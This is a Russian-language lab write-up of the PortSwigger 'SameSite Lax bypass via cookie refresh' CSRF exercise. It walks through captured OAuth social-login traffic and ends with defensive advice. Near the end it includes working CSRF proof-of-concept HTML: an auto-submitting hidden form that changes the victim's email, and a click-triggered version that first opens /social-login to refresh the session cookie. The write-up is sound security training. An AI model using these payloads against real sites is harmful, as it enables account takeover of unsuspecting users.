

лаба https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh

#### SameSite Lax bypass via cookie refresh

задание:  выполнить CSRF-атаку, которая изменит адрес электронной почты жертвы

-------


вот запрос на отпр коммента
```http
POST /post/comment HTTP/2
Host: 0ae500de0465e6d38262845d006800dc.web-security-academy.net
Cookie: session=PbGkUz40XzF90MtriNivRm8NgLVlzGnb
Content-Length: 69
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ae500de0465e6d38262845d006800dc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/post?postId=7
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

postId=7&comment=45%D0%B545&name=hacker&email=hacker%40bk.ru&website=
```

Cookie: session=PbG..кука живет минут 5

--------

вот запрос на смену емейл
```http
POST /my-account/change-email HTTP/2
Host: 0ae500de0465e6d38262845d006800dc.web-security-academy.net
Cookie: session=ltZyzRxNzy3e6IcrS2TYLWIuP1DGc37L
Content-Length: 24
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ae500de0465e6d38262845d006800dc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker2333%40bk.ru
```

Cookie: session=PbG..кука живет  живет минут 5

через гет - не получается сделать запрсос 
```c
GET /my-account/change-email?email=hacker2333%40bk.ru HTTP/2
```
это значит, что придется выполнять скорее всего js код и отправлять пост запрос, типо xss чтобы из браузера жертвы отправить запрос на смену емейл

-----


вот кстати интересная стр
```http
GET /auth?client_id=z92d91qq696llmeomjc14&redirect_uri=https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

```
ответ редиректит на Redirecting to /interaction/v2Qkknrj1k_8QXc1APr3j - это форма ввода логина и пароля
```http
HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Set-Cookie: _interaction=v2Qkknrj1k_8QXc1APr3j; path=/interaction/v2Qkknrj1k_8QXc1APr3j; expires=Sat, 14 Mar 2026 05:38:41 GMT; samesite=lax; secure; httponly
Set-Cookie: _interaction_resume=v2Qkknrj1k_8QXc1APr3j; path=/auth/v2Qkknrj1k_8QXc1APr3j; expires=Sat, 14 Mar 2026 05:38:41 GMT; samesite=lax; secure; httponly
Location: /interaction/v2Qkknrj1k_8QXc1APr3j
Content-Type: text/html; charset=utf-8
Date: Sat, 14 Mar 2026 05:28:41 GMT
Keep-Alive: timeout=5
Content-Length: 50

Redirecting to /interaction/v2Qkknrj1k_8QXc1APr3j.
```

==видно - samesite=lax==  + установка кук

вот куда ведет авто редирект

```http
GET /interaction/v2Qkknrj1k_8QXc1APr3j HTTP/2
Host: oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Cookie: _interaction=v2Qkknrj1k_8QXc1APr3j
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

ответ
```html
HTTP/2 200 OK
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Content-Type: text/html; charset=utf-8
Etag: W/"d0b-lGD+Da0AhhLe+X6ghNOGLqQ2vyw"
Date: Sat, 14 Mar 2026 05:28:41 GMT
Keep-Alive: timeout=5
Content-Length: 4420

<!DOCTYPE html>
далее идет html форм кнопок входа в сторонней соц сети

   </style>
  <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet></head>
  <body><div id="academyLabHeader">
  <section class="academyLabBanner">
    <div class="container">
      
      <div class="title-container">
        <h2>SameSite Lax bypass via cookie refresh</h2>
        <a id="lab-link" class="button" href="https://0ae500de0465e6d38262845d006800dc.web-security-academy.net">Back to lab home</a>
        <a class="link-back" href="https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh">Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 28 30" enable-background="new 0 0 28 30" xml:space="preserve" title="back-arrow"><g><polygon points="1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15"></polygon><polygon points="14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15"></polygon></g></svg></a>
      </div>
    </div>
  </section>
</div>

    <div class="login-card">
      <h1>Sign-in</h1>
      
      <form autocomplete="off" action="/interaction/v2Qkknrj1k_8QXc1APr3j/login" class="login-form" method="post">
        <input required type="text" name="username" placeholder="Enter a username or email" autofocus="on">
        <input required type="password" name="password" placeholder="and password" >

        <button type="submit" class="login login-submit">Sign-in</button>
      </form>
      <div class="login-help">
        <a href="/interaction/v2Qkknrj1k_8QXc1APr3j/abort">[ Cancel ]</a>
        
        
      </div>
```




кстати говря -если с невалидной кукой (мне кажется - что кука просрочилась для входа) попробовать снова открыть это форму входу в соц сеть - то видимо и-за невалидной куки 
вот такая ошибка
```js

HTTP/2 400 Bad Request
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Date: Sat, 14 Mar 2026 06:17:16 GMT
Keep-Alive: timeout=5
Content-Length: 2350

SessionNotFound: invalid_request 
 
    at Provider.getInteraction (/opt/node-v19.8.1-linux-x64/lib/node_modules/oidc-provider/lib/provider.js:50:11)  
    
    at Provider.interactionDetails (/opt/node-v19.8.1-linux-x64/lib/node_modules/oidc-provider/lib/provider.js:228:27)  
    at /home/carlos/oauth/index.js:160:34  
    
    at Layer.handle [as handle_request] (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/layer.js:95:5)  
    
    at next (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/route.js:137:13)  
    at setNoCache (/home/carlos/oauth/index.js:121:5)  
    
    at Layer.handle [as handle_request] (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/layer.js:95:5)  
    
    at next (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/route.js:137:13)  
    at Route.dispatch (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/route.js:112:3)  
    at Layer.handle [as handle_request] (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/layer.js:95:5)
    
    
```


-------------

при заполнении формы 
```http
POST /interaction/v2Qkknrj1k_8QXc1APr3j/login HTTP/2
Host: oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Cookie: _interaction=v2Qkknrj1k_8QXc1APr3j
...
.
Priority: u=0, i

username=wiener&password=peter
```
ответ с редиректом вот сюда 
`https://oauth-0a4d005804eae6658249822c02010001.oauth-server.net/auth/v2Qkknrj1k_8QXc1APr3j`

```http
HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Location: https://oauth-0a4d005804eae6658249822c02010001.oauth-server.net/auth/v2Qkknrj1k_8QXc1APr3j
Date: Sat, 14 Mar 2026 05:29:30 GMT
Keep-Alive: timeout=5
Content-Length: 0


```

при отьправке старой куки сюда при входе по этой форме 
вот такой ответ!
```html

SessionNotFound: invalid_request<br> 

at Provider.getInteraction (/opt/node-v19.8.1-linux-x64/lib/node_modules/oidc-provider/lib/provider.js:54:11)<br>  
   
at process.processTicksAndRejections (node:internal/process/task_queues:95:5)<br>   

at async /home/carlos/oauth/index.js:191:39
   
```

------------


-----

#### итого =  что мы имеем:


вот весь процесс - авторизации через соц сеть:

#### шаг 1  - нажал войти с глав стр
```html
GET /social-login HTTP/2
Host: 0ae500de0465e6d38262845d006800dc.web-security-academy.net
Cookie: session=PbGkUz40XzF90MtriNivRm8NgLVlzGnb
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/post/comment/confirmation?postId=7
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


ответ 200 с авто редиректом

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3285

</header>
<meta http-equiv=refresh content='3;url=https://oauth-0a4d005804eae6658249822c02010001.oauth-server.net/auth?client_id=z92d91qq696llmeomjc14&redirect_uri=https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email'>
<p>

```

#### шаг 2 автоматически откр
```http
GET /auth?client_id=z92d91qq696llmeomjc14&redirect_uri=https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


и ОТВЕТ 302 c ЕЩЕ ОДНИМ РЕДИРЕКТОМ ++ LAX

HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Set-Cookie: _interaction=v2Qkknrj1k_8QXc1APr3j; path=/interaction/v2Qkknrj1k_8QXc1APr3j; expires=Sat, 14 Mar 2026 05:38:41 GMT; samesite=lax; secure; httponly
Set-Cookie: _interaction_resume=v2Qkknrj1k_8QXc1APr3j; path=/auth/v2Qkknrj1k_8QXc1APr3j; expires=Sat, 14 Mar 2026 05:38:41 GMT; samesite=lax; secure; httponly
Location: /interaction/v2Qkknrj1k_8QXc1APr3j
Content-Type: text/html; charset=utf-8
Date: Sat, 14 Mar 2026 05:28:41 GMT
Keep-Alive: timeout=5
Content-Length: 50

Redirecting to /interaction/v2Qkknrj1k_8QXc1APr3j.


здесь выдают куки  !!!!!!!!!!

```

#### шаг 3 автоматом откр ФОРМА ВХОДА В СОЦ СЕТЬ
```html
GET /interaction/v2Qkknrj1k_8QXc1APr3j HTTP/2
Host: oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Cookie: _interaction=v2Qkknrj1k_8QXc1APr3j
.....
...
.

-------
вот ответ

HTTP/2 200 OK
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Content-Type: text/html; charset=utf-8
Etag: W/"d0b-lGD+Da0AhhLe+X6ghNOGLqQ2vyw"
Date: Sat, 14 Mar 2026 05:28:41 GMT
Keep-Alive: timeout=5
Content-Length: 4420

хедер

далее ДВЕ КНОПКИ ВХОД И ОТМЕНА

     <h1>Sign-in</h1>
      
      <form autocomplete="off" action="/interaction/v2Qkknrj1k_8QXc1APr3j/login" class="login-form" method="post">
        <input required type="text" name="username" placeholder="Enter a username or email" autofocus="on">
        <input required type="password" name="password" placeholder="and password" >

        <button type="submit" class="login login-submit">Sign-in</button>
      </form>
      <div class="login-help">
   <a href="/interaction/v2Qkknrj1k_8QXc1APr3j/abort">[ Cancel ]</a>
        


```

#### шаг 4 ВХОД  ввод пароль+логин ( ну уж точно мне не нужно вводить лог+пароль жертвы )
```http
POST /interaction/v2Qkknrj1k_8QXc1APr3j/login HTTP/2
Host: oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Cookie: _interaction=v2Qkknrj1k_8QXc1APr3j
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://oauth-0a4d005804eae6658249822c02010001.oauth-server.net/interaction/v2Qkknrj1k_8QXc1APr3j/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=wiener&password=peter


-------
ОТВЕТ с перенаправелнием

HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Location: https://oauth-0a4d005804eae6658249822c02010001.oauth-server.net/auth/v2Qkknrj1k_8QXc1APr3j
Date: Sat, 14 Mar 2026 05:29:30 GMT
Keep-Alive: timeout=5
Content-Length: 0


```

#### шаг 5 перенаправление автоматом
```http
GET /auth/v2Qkknrj1k_8QXc1APr3j HTTP/2
Host: oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Cookie: _interaction_resume=v2Qkknrj1k_8QXc1APr3j
...
..
.

------

HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Set-Cookie: _interaction=v2Qkknrj1k_8QXc1APr3j; path=/interaction/v2Qkknrj1k_8QXc1APr3j; expires=Sat, 14 Mar 2026 05:39:30 GMT; samesite=lax; secure; httponly

Set-Cookie: _interaction_resume=v2Qkknrj1k_8QXc1APr3j; path=/auth/v2Qkknrj1k_8QXc1APr3j; expires=Sat, 14 Mar 2026 05:39:30 GMT; samesite=lax; secure; httponly

Set-Cookie: _session=KsoeEZ5I78tDNOBVNoafw; path=/; expires=Sat, 28 Mar 2026 05:29:30 GMT; samesite=none; secure; httponly

Set-Cookie: _session.legacy=KsoeEZ5I78tDNOBVNoafw; path=/; expires=Sat, 28 Mar 2026 05:29:30 GMT; secure; httponly

Location: /interaction/v2Qkknrj1k_8QXc1APr3j

Content-Type: text/html; charset=utf-8
Date: Sat, 14 Mar 2026 05:29:30 GMT
Keep-Alive: timeout=5
Content-Length: 50

Redirecting to /interaction/v2Qkknrj1k_8QXc1APr3j.


видно здесь кучу инфы и lax и все куки

```

#### шаг 6 результат после ввода лог+пароль
```html
GET /interaction/v2Qkknrj1k_8QXc1APr3j HTTP/2
Host: oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Cookie: _interaction=v2Qkknrj1k_8QXc1APr3j; _session=KsoeEZ5I78tDNOBVNoafw; _session.legacy=KsoeEZ5I78tDNOBVNoafw
Cache-Control: max-age=0
...
..
.

-----

инфа о том - что успешный был вход + две кнопки - отмена (abort) и продолжить (confirm)

</ul>

<form autocomplete="off" action="/interaction/v2Qkknrj1k_8QXc1APr3j/confirm" method="post">
   <button autofocus type="submit" class="login login-submit">Continue</button>
   </form>
   <div class="login-help">
<a href="/interaction/v2Qkknrj1k_8QXc1APr3j/abort">[ Cancel ]</a>

```

#### шаг 7 нажал продолжить 
```http
POST /interaction/v2Qkknrj1k_8QXc1APr3j/confirm HTTP/2
Host: oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Cookie: _interaction=v2Qkknrj1k_8QXc1APr3j; _session=KsoeEZ5I78tDNOBVNoafw; _session.legacy=KsoeEZ5I78tDNOBVNoafw
...
..
.

ответ с перебросом

HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Location: https://oauth-0a4d005804eae6658249822c02010001.oauth-server.net/auth/v2Qkknrj1k_8QXc1APr3j
Date: Sat, 14 Mar 2026 05:29:35 GMT
Keep-Alive: timeout=5
Content-Length: 0


```

#### шаг 8 снова переброс
```http
GET /auth/v2Qkknrj1k_8QXc1APr3j HTTP/2
Host: oauth-0a4d005804eae6658249822c02010001.oauth-server.net
Cookie: _interaction_resume=v2Qkknrj1k_8QXc1APr3j; _session=KsoeEZ5I78tDNOBVNoafw; _session.legacy=KsoeEZ5I78tDNOBVNoafw
Cache-Control: max-age=0

---

ответ с редиректом

HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Set-Cookie: _interaction_resume=; path=/auth/v2Qkknrj1k_8QXc1APr3j; expires=Thu, 01 Jan 1970 00:00:00 GMT; samesite=lax; secure; httponly
Set-Cookie: _session=0uflGpLNl-C23SONcU_d7; path=/; expires=Sat, 28 Mar 2026 05:29:35 GMT; samesite=none; secure; httponly
Set-Cookie: _session.legacy=0uflGpLNl-C23SONcU_d7; path=/; expires=Sat, 28 Mar 2026 05:29:35 GMT; secure; httponly
Location: https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/oauth-callback?code=qGHwZNdrcVbYPUsNiH1ArfPK2N99l0NgPgfarbN0svt
Content-Type: text/html; charset=utf-8
Date: Sat, 14 Mar 2026 05:29:35 GMT
Keep-Alive: timeout=5
Content-Length: 145

Redirecting to https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/oauth-callback?code=qGHwZNdrcVbYPUsNiH1ArfPK2N99l0NgPgfarbN0svt.
```

#### шаг 9 сообщение об успешном входе!

```http
GET /oauth-callback?code=qGHwZNdrcVbYPUsNiH1ArfPK2N99l0NgPgfarbN0svt HTTP/2
Host: 0ae500de0465e6d38262845d006800dc.web-security-academy.net
Cookie: session=PbGkUz40XzF90MtriNivRm8NgLVlzGnb

=========

ответ

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=ltZyzRxNzy3e6IcrS2TYLWIuP1DGc37L; Expires=Sun, 15 Mar 2026 05:29:36 UTC; Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
Content-Length: 3052

с кнопочкой продолжить

<a class=button href='/'>Continue</a>

```

-------

# ИТОГО


я думаю:

1 - если кинуть жертве запрос GET /social-login HTTP/2
2 - то там будут валидные куки 
3 - если эти куки перехватить - то я смогу их вставить в скрипт
4 - скрипт должен отправить пост запрос на смену емейл

итого скприпт должен сделать:
- сделать запрос в браузере жертвы /social-login
- получить эти куки
- подставить куки в запрос на смену емейл 
- отправить запрос на смену емейт

но проблема в том, что эти сраные куки Cookie: _interaction=v2Qkknrj1k_8QXc1APr3j
не используются при смене емейл - там используется обычная кука сиссии!Cookie: session=ltZyzRxNzy3e6IcrS2TYLWIuP1DGc37L

и не вижу тут xss


-----

попробую тупо скинуть жертве ссылку на мой сервер 
чтобы он сменил ей емейл - и посмотрю результат

```html
<form method="POST" action="https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacker77777@bk.ru">
</form>
<p>tap</p>
<script>
    document.forms[0].submit();
</script>
```

я выполнил этот скрипт сам на себе - я сам перешел на свой север
и мой емейл сменился

только первый переход - произошел перелогин
повторно попробовал - и сменился емейл

епте - с этого нужно было начать...

------

отправил дважды жертве это дело - и лаба выполнилась - но жертве пришлось дважды перейти по ссылке....
#### лаба решена

---

но я так понимаю, что нужно было сделать за 1 переход жертвы по ссылке!

так как первый запрос вызвал перелогин - то этот перелогин это запрос GET /social-login HTTP/2
и этот запрос можно впихнуть в мой скрипт

-----

просто сделать чтобы при клике сперва сработал переход на перелогин и чепез 3сек например переход на смену емейл

типо так
```html
<form method="POST" action="https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacker1337@bk.ru">
</form>
<p>кликни где-нибудь на странице</p>
<script>
    window.onclick = () => {
        window.open('https://0ae500de0465e6d38262845d006800dc.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }
    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
обновление файла cookie с новой вкладки, чтобы браузер не покинул страницу до того, как мы сможем запустить смену емейл

-------


### выводы


в этой лабе я использовал обход sameSite lax через принудительное обновление сессионной куки с помощью oauth-логина

я заметил что после прохождения через /social-login сайт всегда выдаёт новую сессионную куку, причепм  даже если пользователь уже был залогинен

браузеры chrome автоматически применяют sameSite lax к кукам без атрибута, но в течение 2 минут (дип сик подсказал)

	- если кука установлена без атрибута sameSite (то есть браузер сам применяет к ней lax)
	- и если с момента установки прошло меньше 2 мин
	- то браузер всё равно отправит её даже в кросс-сайт post запросе
	- это даёт двухминутное окно, в которое старые системы могут работать как раньше 
через 2 минуты включается жёсткий режим — post уже не прокатывает, только get навигация

 после установки куки браузер отправляет куку даже в cross-site post запросах
 
 ну и я создал эксплойт который сначала заставляет жертву кликнуть на странице чтобы открыть /social-login в новом окне и обновить куку, а через несколько секунд отправляет форму смены email

(правда - сработала и просто двойная отправка формы для смены емей - так как первый раз вызывает ошибку и перелогин, а повторно уже - смену  мейл
)

  когда жертва кликнула, кука обновилась, браузер посчитал запрос валидным и почта успешно изменилась


### защита

для защиты от таких атак нужно устанавливать на сессионные куки атрибут sameSite со значением strict или хотя бы lax с явным указанием

также важно добавлять csrf-токены в формы и проверять их на сервере

oauth-провайдеры должны проверять параметр state для защиты от csrf при логине

на стороне сервера полезно проверять заголовок referer или origin для критических действий

ну и конечно использовать разные куки для разных сервисов и ==не делать так чтобы oauth-логин автоматически обновлял сессию без подтверждения пользователя==

-----
